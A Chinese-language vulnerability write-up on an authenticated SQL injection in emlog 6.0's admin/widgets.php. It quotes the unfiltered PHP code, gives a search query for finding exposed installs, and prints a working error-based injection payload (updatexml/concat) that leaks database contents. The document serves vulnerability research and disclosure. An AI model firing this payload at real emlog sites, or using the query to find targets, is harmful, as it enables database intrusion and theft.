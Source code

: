 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>emlog 6.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EMLOG"</a-checkbox></br>

## 漏洞复现

产品主页

```python
https://github.com/emlog/emlog
```

![img](/assets/PeiQi-Wiki/img/1634002177714-22159b01-c44f-476a-bb4f-8363cceb9460.png)

存在漏洞的文件为 `admin/widgets.php`

![img](/assets/PeiQi-Wiki/img/1634002231213-67b50259-52f0-4cf0-983b-fc1a88cc6471.png)

```python
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![img](/assets/PeiQi-Wiki/img/1634002837216-c1000372-81ea-4671-bc5d-c378110d93db.png)

```python
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```python
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![img](/assets/PeiQi-Wiki/img/1634002917512-820b18c8-d37a-4507-974c-1ba9c2afc2ed.png)
![img](/assets/PeiQi-Wiki/img/1634003089227-452c8b4e-d367-4f01-af1f-e90a79bfd91f.png)
